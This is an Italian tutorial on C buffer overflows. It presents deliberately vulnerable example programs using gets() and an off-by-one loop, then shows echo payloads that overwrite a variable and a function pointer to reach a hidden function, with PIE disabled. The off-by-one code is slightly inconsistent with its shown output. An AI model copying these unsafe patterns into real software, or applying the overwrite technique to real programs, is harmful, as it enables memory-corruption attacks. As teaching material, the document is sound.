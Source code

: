 ﻿# Buffer overflow

Il buffer overflow è una tra le vulnerabilità più comuni tra i software, la principale causa di questa vulnerabilità è la scrittura di codice non corretta e sicura.

Il **buffer overflow** è una condizione in cui è possibile riempire un buffer **oltre** alla sua capacità allocata, andando così a sovrascrivere altre informazioni in memoria.

Questa vulnerabilità viene usata principalmente per:

- far crashare il sistema
- inserire dati che rompono l’integrità
- inserire codice per ottenere il controllo del sistema

Linguaggi come C sono ritenuti “unsafe” e lasciano al programmatore la responsabilità di implementare i dovuti controlli per proteggersi dalle vulnerabilità sulla memoria.

## Rompere l’integrità e crash

Consideriamo il seguente codice C

```c
#include <string.h>
#include <stdio.h>

char buffer1[8] = "one";    // buffer of size 8 initialized with “one”
int value = 5;
char buffer2[8] = "two";    // buffer of size 8 initialized with “two”
int main(int argc, char *argv[]) {
		// prints: address = value,  before user input
	 printf("[BEFORE] buffer1 @ %1$p = %1$s\n", buffer1);
	 printf("[BEFORE] value @ %1$p = 0x%2$08x\n",&value, value);
	 printf("[BEFORE] buffer2 @ %1$p = %1$s\n", buffer2);
	
	 printf("Please enter your input: ");
	 gets(buffer1);     // reads input into buffer1, whatever length!
	 printf("\n");
	  // prints: address = value,  after user input
	 printf("[AFTER] buffer1 @ %1$p = %1$s\n", buffer1);
	 printf("[AFTER] value @ %1$p = 0x%2$08x\n",&value, value);
	 printf("[AFTER] buffer2 @ %1$p = %1$s\n", buffer2);
}
```

Abbiamo quindi  l’allocazione di un buffer, una variabile e un altro buffer.

Viene preso un input utente e viene inserito nel primo buffer.

Esecuzione:

```bash
$ echo "prova" | ./prova
[BEFORE] buffer1 @ 0x7fe3b7d9a010 = one
[BEFORE] value   @ 0x7fe3b7d9a018 = 0x00000005
[BEFORE] buffer2 @ 0x7fe3b7d9a020 = two
Please enter your input:
[AFTER] buffer1 @ 0x7fe3b7d9a010 = prova
[AFTER] value   @ 0x7fe3b7d9a018 = 0x00000005
[AFTER] buffer2 @ 0x7fe3b7d9a020 = two
```

Con questo input non è successo nulla di strano, l’input è stato inserito nel primo buffer.

Notiamo come gli indirizzi delle variabili sono sequenziali, distanziati di 8 byte.

Se la dimensione dell’input rientra nella dimensione del buffer non ci sono problemi, ma non abbiamo controlli per forzare che ciò avvenga sempre, infatti è possibile inserire un input più grande:

```bash
$ echo "AAAAAAAA" | ./prova
[BEFORE] buffer1 @ 0x7f92ba1bc010 = one
[BEFORE] value   @ 0x7f92ba1bc018 = 0x00000005
[BEFORE] buffer2 @ 0x7f92ba1bc020 = two
Please enter your input:
[AFTER] buffer1 @ 0x7f92ba1bc010 = AAAAAAAA
[AFTER] value   @ 0x7f92ba1bc018 = 0x00000000
[AFTER] buffer2 @ 0x7f92ba1bc020 = two
```

la stringa con 8 caratteri ‘A’ va in overflow in quanto la stringa contiene anche il **carattere terminatore** `0x00`. Vediamo infatti che viene sovrascritto il valore della variabile `value`.

Nota che in *little endian* i byte vengono prima scritti quelli meno significativi (quelli più a destra).

Se inseriamo 9 caratteri A, otteniamo il seguente output:

```bash
$ echo "AAAAAAAAA" | ./prova
[BEFORE] buffer1 @ 0x7f669a8de010 = one
[BEFORE] value   @ 0x7f669a8de018 = 0x00000005
[BEFORE] buffer2 @ 0x7f669a8de020 = two
Please enter your input:
[AFTER] buffer1 @ 0x7f669a8de010 = AAAAAAAAA
[AFTER] value   @ 0x7f669a8de018 = 0x00000041
[AFTER] buffer2 @ 0x7f669a8de020 = two
```

Continuando ad aumentare il numero di caratteri in input, continuiamo a sovrascrivere le zone di memoria successive. Otteniamo quindi un **buffer overflow**. Ciò che può limitare la dimensione del nostro input è un errore di **segmentation fault** (e quindi crash del programma), che si verificherebbe nel caso arrivassimo a sovrascrivere zone di memoria non assegnate al nostro processo.

La funzione `gets` è *unsafe* perché non limita in alcun modo la dimensione dell’input, e non dovrebbe venir mai utilizzata, inoltre durante la compilazione appare un *warning* che avverte di ciò.

## Controllare il flusso di codice

Con il buffer overflow è possibili modificare il normale flusso di codice, principalmente in due modi:

- sovrascrivendo il puntatore ad una funzione
- sovrascrivendo con nuovo codice

Ad esempio se definiamo un tipo di dato:

```c
typedef struct element {
	 char data[16];
	 void (*f)(char *);
} element_t;
```

contenente un buffer e un puntatore ad una funzione.

In questo caso un buffer overflow può sovrascrivere il puntatore alla funzione, in modo da eseguire una funzione differente da quella attesa.

Ad esempio:

```c
typedef struct element {
	 char data[16];
	 void (*f)(char *);
} element_t;

void secret_function() {
	 printf("Secret function!\n");
}
void show_data(char *s) {
	 printf("Data = %s\n",s);
}

int main(int argc, char *argv[]) {
	 element_t e;
	 e.f = show_data;   // legitimate function
	 printf("Insert data: ");
	 gets(e.data);      // reads data, possible buffer overflow
	 e.f(e.data);
}
```

L’obiettivo dell’attacco è quello di far invocare la funzione `secret_function()` invece di `show_data()`:

Per semplificare l’attacco disabilitiamo l’opzione di compilazione **PIE** (*Position Independent Executable*) che rende più difficile exploitare la vulnerabilità in quanto renderebbe randomizzata la posizione in memoria del programma.

`$ gcc overflow-struct.c -o overflow-struct --no-pie --static`

Adesso usando gdb, possiamo ottenere l’indirizzo della funzione `secret_function()`:

```nasm
$ gdb -q overflow-struct
...
(gdb) x/x secret_function
	0x400b4d <secret_function>: 0xe5894855
```

Adesso per riuscire a sovrascrivere il puntatore bisogna riempire il buffer fino alla sua dimensione massima con dei dati qualsiasi e poi andare in overflow inserendo l’indirizzo della `secret_function`.

Nota che gli indirizzi sono a 8 byte e sono in little endian

```bash
echo -e "AAAAAAAAAAAAAAAA\x4d\x0b\x40\x00\x00\x00\x00\x00" | ./overflow-struct
Insert data: Secret function!
```

## Off-by-one bug

Un tipico errore di programmazione può essere il seguente, in cui viene sbagliato il controllo sull’indice finale di un ciclo.

```c
typedef struct element {
	 char data[16];
	 void (*f)(char *);
} element_t;

void secret_function() {
	 printf("Secret function!\n");
}
void show_data(char *s) {
	 printf("Data = %s\n",s);
}

int main(int argc, char *argv[]) {
	 element_t e;
	 e.f = show_data; // legitimate function
	 printf("Insert data: ");
	 memset(e.data, 0, sizeof(e.data));
	
	 //the error in the following line is: i<=sizeof(e.data)
	 //it should be i<sizeof(e.data)
	 for (i=0; i<=sizeof(e.data) && (c=getc(stdin))!= EOF && c != '\n'; i++) {
		 e.data[i] = c;
	 }
	 printf("show_data = %p, secret_function = %p\n",show_data,secret_function);
}
```

Con l’ultima `printf` andiamo a controllare gli indirizzi assegnati alle due funzioni: `show_data` e `secret_function`. 

eseguendo il programma più volte notiamo come gli indirizzi delle due funzioni **cambiano solo per l’ultimo byte** (una termina sempre con `dd` e l’altra con `ca` e il resto dell’indirizzo è comune per entrambi).

```c
$ echo -e "AAAAAAAAAAAAAAA" | ./overflow-struct-offbyone
Insert data: Data = AAAAAAAAAAAAAAA
show_data = 0x560bfd9287dd, secret_function = 0x560bfd9287ca

$ echo -e "AAAAAAAAAAAAAAA" | ./overflow-struct-offbyone
Insert data: Data = AAAAAAAAAAAAAAA
show_data = 0x56260d01f7dd, secret_function = 0x56260d01f7ca

$ echo -e "AAAAAAAAAAAAAAA" | ./overflow-struct-offbyone
Insert data: Data = AAAAAAAAAAAAAAA
show_data = 0x5646872967dd, secret_function = 0x5646872967ca

$ echo -e "AAAAAAAAAAAAAAA" | ./overflow-struct-offbyone
Insert data: Data = AAAAAAAAAAAAAAA
show_data = 0x55f42b85f7dd, secret_function = 0x55f42b85f7ca
```

Sfruttando l’errore sul controllo dell’indice del buffer possiamo modificare tale byte, che ci è sufficiente per cambiare la funzione invocata:

```c
$ echo -e "AAAAAAAAAAAAAAAA\xca" | ./overflow-struct-offbyone
Insert data: Secret function!
show_data = 0x560975daa7dd, secret_function = 0x560975daa7ca
```
